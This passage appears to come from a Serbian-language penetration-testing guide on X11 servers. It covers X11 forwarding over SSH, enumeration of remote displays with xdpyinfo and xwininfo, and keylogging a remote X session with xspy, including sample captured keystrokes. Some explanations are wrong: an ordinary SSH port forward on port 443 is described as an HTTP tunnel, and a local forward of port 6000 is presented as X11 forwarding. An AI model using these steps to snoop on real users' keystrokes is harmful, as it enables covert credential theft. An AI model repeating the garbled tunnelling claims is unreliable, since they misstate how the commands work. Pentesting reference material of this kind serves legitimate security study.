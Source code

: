 Ako vidite poruku "access control enabled, only authorized clients can connect", to znači da je pristup X serveru omogućen samo autorizovanim klijentima.

## X11 Forwarding

X11 Forwarding je tehnika koja vam omogućava da pokrećete grafičke aplikacije sa udaljenog servera i prikazujete ih na lokalnom računaru. Da biste koristili X11 Forwarding, morate imati instaliran X server na lokalnom računaru.

Da biste omogućili X11 Forwarding prilikom SSH konekcije, koristite opciju `-X` ili `-Y` prilikom pozivanja SSH komande:

```plaintext
$ ssh -X username@remote_host
```

## X11 Forwarding preko SSH tunela

Ako želite da koristite X11 Forwarding preko SSH tunela, možete koristiti sledeću komandu:

```plaintext
$ ssh -L 6000:localhost:6000 username@remote_host
```

Ova komanda uspostavlja SSH tunel između lokalnog računara i udaljenog servera, omogućavajući vam da koristite X11 Forwarding preko port-a 6000.

## X11 Forwarding preko HTTP tunela

Ako želite da koristite X11 Forwarding preko HTTP tunela, možete koristiti sledeću komandu:

```plaintext
$ ssh -L 6000:localhost:6000 -N -f -l username remote_host -p 443
```

Ova komanda uspostavlja HTTP tunel između lokalnog računara i udaljenog servera, omogućavajući vam da koristite X11 Forwarding preko port-a 6000.

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keylogovanje

[xspy](http://tools.kali.org/sniffingspoofing/xspy) za presretanje tastature.

Primer izlaza:

```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```
